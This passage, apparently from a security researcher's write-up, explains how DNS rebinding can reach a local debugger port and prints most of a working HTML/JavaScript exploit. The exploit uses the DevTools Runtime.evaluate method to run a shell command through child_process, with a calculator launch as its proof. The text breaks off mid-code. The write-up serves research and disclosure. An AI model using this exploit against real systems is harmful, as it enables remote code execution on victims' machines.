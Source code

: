 After googling for a while, I found two DNS rebinding writeups that really helped me understand how an attack can be crafted under these circunstances, kudos to [@root_31068](https://medium.com/@root_31068/the-call-is-coming-from-inside-the-house-dns-rebinding-in-eosio-keosd-wallet-e11deae05974) and [@0xcc](https://medium.com/0xcc/visual-studio-code-silently-fixed-a-remote-code-execution-vulnerability-8189e85b486b) on that. If you haven´t opened these links yet, go ahead and read them.

So, to exploit this vulnerability we are going to need two things:

* A server with an html that triggers some JS code.
* A DNS server which will iterate from the IP of where we are hosting the web server above and localhost.

For the second one, we will be using the [whonow]()[https://github.com/brannondorsey/whonow] tool and its network.rebind domain, while for the first one we are going to use a python server with a simple HTML file in a VPS:

`python -m SimpleHTTPServer 9334`

After configuring the firewall rules to expose to the internet the Python Web server through port 9334 (Note that we need to use the same port number as the application), we create the 'dnsrebinding.html' file :

```
<html>
<body>
<script>
setTimeout(function() {
  let list;
  fetch("/json", { method: "GET" })
    .then(function(r) {
      return r.json();
    })
    .then(function(json) {
      list = json;
      const item = list.find(item => item.url.indexOf('file:///') === 0);
          if (!item) return log('error');
          console.log(item.webSocketDebuggerUrl);
          function exploit(url) {
                function nodejs() {
                        const cmd = {
                          darwin: 'open /Applications/Calculator.app',
                          win32: 'calc',
                          linux: 'xcalc',
                        };
                process.mainModule.require('child_process').exec(
                cmd[process.platform])
                };
                const packet = {
                  "id": 13371337,
                  "method": "Runtime.evaluate",
                  "params": {
                    "expression": `(${nodejs})()`,
                    "objectGroup": "console",
                    "includeCommandLineAPI": true,
                    "silent": false,
                    "contextId": 1,
                    "returnByValue": false,
                    "generatePreview": true,
                    "userGesture": true,
                    "awaitPromise": false,
                  }
                };
                const ws = new WebSocket(item.webSocketDebuggerUrl);
                  ws.onopen = () => ws.send(JSON.stringify(packet));
                  ws.onmessage = ({ data }) => {
                        if (JSON.parse(data).id === 13371337)
```